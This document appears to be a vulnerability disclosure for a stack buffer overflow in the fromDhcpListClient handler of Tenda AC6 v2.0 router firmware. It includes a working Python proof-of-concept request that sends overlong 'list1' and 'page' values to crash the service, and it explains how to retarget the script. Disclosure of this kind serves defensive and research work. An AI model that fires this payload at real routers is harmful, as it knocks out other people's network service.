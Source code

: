 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ，Zhao Jiangting(sta8r9@163.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `fromDhcpListClient` function in AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long value for the `page` or `list1` variable, leading to a stack overflow and potentially resulting in a DDoS attack.

# Vulnerability details

Analyzing the `fromDhcpListClient` function in this file reveals that when the `page` or `list1` variable contains an excessively long string, such as 400 consecutive "a" characters, a stack overflow occurs. This happens because the `tmpstr`  and `gotopage`variable lacks sufficient buffer space and overflows when the value is copied using the `strcpy` and `sprintf`function.

![image-20250313204606250](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132046822.png)

Cross-referencing the `fromDhcpListClient` function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250313205221797](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132052890.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/DhcpListClient"

headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "LISTLEN": "1",
    "list1": "a"*0x400,
    "page": "b"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)